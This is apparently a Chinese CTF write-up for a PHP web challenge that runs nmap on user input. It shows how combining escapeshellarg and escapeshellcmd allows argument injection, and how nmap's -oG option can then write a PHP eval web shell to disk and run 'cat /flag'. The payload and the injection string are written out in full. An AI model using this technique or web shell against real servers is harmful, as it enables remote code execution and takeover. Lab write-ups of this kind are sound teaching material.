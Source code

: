 ![[Pasted image 20221113171258.png]]
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
大家是都不喜欢闭合`php`标签吗QAQ

---
搜索得知，这里`$host`经过`escapeshellarg`和`escapeshellcmd`的处理是可以被绕过的

https://paper.seebug.org/164/
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

```shell
chen@cracktc-no-omen ~> echo '172.17.0.2'\\'' -v -d a=1\'  
172.17.0.2\ -v -d a=1'
```
---
`nmap`的手册中，和输出有关的参数如下
```
OUTPUT:  
  -oN/-oX/-oS/-oG <file>: Output scan results in normal, XML, s|<rIpt kIddi3,  
     and Grepable format, respectively, to the given filename.  
  -oA <basename>: Output in the three major formats at once  
  -v: Increase verbosity level (use twice for more effect)  
  -d[level]: Set or increase debugging level (Up to 9 is meaningful)  
  --packet-trace: Show all packets sent and received  
  --iflist: Print host interfaces and routes (for debugging)  
  --append-output: Append to rather than clobber specified output files  
  --resume <filename>: Resume an aborted scan  
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML  
  --no-stylesheet: Prevent Nmap from associating XSL stylesheet w/XML output
```
因此可以利用`-oG`上传木马

---
想上传的东西是这个
```php
<?php eval($_GET["cmd"]);?> -oG shell.php
```
其中像是`<`、`?`这些特殊符号必会被`escapeshellcmd`加上`\`，我们需要保证这些符号能在shell层面被直接解析
```php
'<?php eval($_GET["cmd"]);?> -oG shell.php '
```
会变成
```php
''\''<?php eval($_GET["cmd"]);?> -oG shell.php '\'''
```
然后变成
```php
''\\''\<\?php eval\(\$_GET\["cmd"\]\)\;\?\> -oG shell.php '\\'''
```
即可被解析

![[Pasted image 20221113194543.png]]
```php
/xxx/shell.php?cmd=system('cat /flag');
```
![[Pasted image 20221113194826.png]]

#Web #PHP #RCE #shell